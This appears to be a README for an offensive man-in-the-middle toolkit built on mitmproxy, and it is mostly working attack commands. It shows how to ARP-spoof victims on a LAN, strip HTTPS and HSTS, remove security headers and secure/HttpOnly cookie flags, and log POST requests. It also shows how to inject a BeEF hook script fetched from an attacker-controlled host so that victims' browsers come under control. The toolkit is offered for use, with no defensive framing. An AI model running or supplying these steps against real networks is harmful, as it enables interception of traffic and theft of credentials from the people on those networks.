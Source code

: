MITM ATTACK WITH HTTP PROXYING ([MITMPROXY](http://docs.mitmproxy.org/en/stable/) v1.0)
----------
  
You can run  **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-i] <interface> ip_target1 ip_target2
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-i] interface
```  
**/!\ Working with Mitmproxy v1.0. Mitmproxy will be automatically downloaded and installed.**  
  
Example of command for full interception (HTTPS/HSTS stripping when possible, otherwise Upstream Certificates):  
  
```
sudo ./mitm.sh -g -n -s -x -i wlan0 192.168.1.1 192.168.1.11
```
  
You also can inject a javascript payload (for example Beef payload):  
```
sudo ./mitm.sh -g -n -j http://192.168.1.10:3000/hook.js -i wlan0 192.168.1.1 192.168.1.11
```
  
While stripping SSL/TLS (*sslstrip.py*), we also aims at:
 - Dropping the following request headers: *If-Modified-Since*,*Cache-Control*,*Upgrade-Insecure-Requests*
 - Dropping the following response headers: *Strict-Transport-Security*,*Public-Key-Pins*,*Content-Security-Policy*,*X-XSS-Protection*,*X-Frame-Options*
 - Dropping meta tag *Content-Security-Policy*
 - Dropping cookies flags *secure*, *HttpOnly*
 - Stripping https:// links and redirections
  
___
  
**mitm.sh** is automating the following steps:  

 - activate ip forwarding (all secured connections will be routed without interception):  
```bash
sysctl -w net.ipv4.ip_forward=1
```

 - avoid to send useless ICMP redirect messages
```bash
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

 - configure nat (8080 is the default listening port of mitmproxy):  
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```  
 - and if you want to add HTTPS capture:
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```  
*The REDIRECT target is used to redirect packets and streams to the machine itself. This means that we could for example REDIRECT all packets destined for the HTTP ports to an HTTP proxy (useful for transparent proxying).*  

 - run arp spoofing with calling the script **arpoison.sh**:  
```bash
xterm -geometry 100x25+1+200 -hold -e arpspoof -t [ip victim] [ip route]
xterm -geometry 100x25+1+300 -hold -e arpspoof -t [ip route] [ip victim]
```
*N.B: arpoison.sh can try to force the arp poisoning of some boxes*  

 - check if arp poisoning is working on both ways with **chk_poison.py**:  
```bash
python ./chk_poison.py [ip victim] [ip route]
```

 - run mitmproxy with our custom **sslstrip.py** module, the **injectjs.py** module and the **io_write_dumpfile.py** module. io_write_dumpfile.py is logging only relevant POST requests (if you want to log trafic, **-a \<logfilename\>**):  
```bash
mitmproxy -T --anticache --host --anticomp --noapp --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py --eventlog
```  
  
*N.B: mitmproxy (with option -w/-a for logging) will dump the whole flows in a tnetstrings format.*  
  
You can also run mitmdump (same as mitmproxy but non interactive):  
```bash
mitmdump -T --anticache --host --anticomp --noapp --quiet --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py"
```
 
 - if you want to extra log urls in a file:   
```bash
urlsnarf > ./urlsnarf.txt &
```
  
**Now go on a website with an unsecured (http) landing webpage and try to click on a link forwarding to a secure area. All trafic should stay clear between the victim and mitmproxy.  
If you injected a Beef hook thanks to the -j option, also check the browser hooked in your Beef panel.**  
  
**Don't hesitate to contribute to all of these modules.**


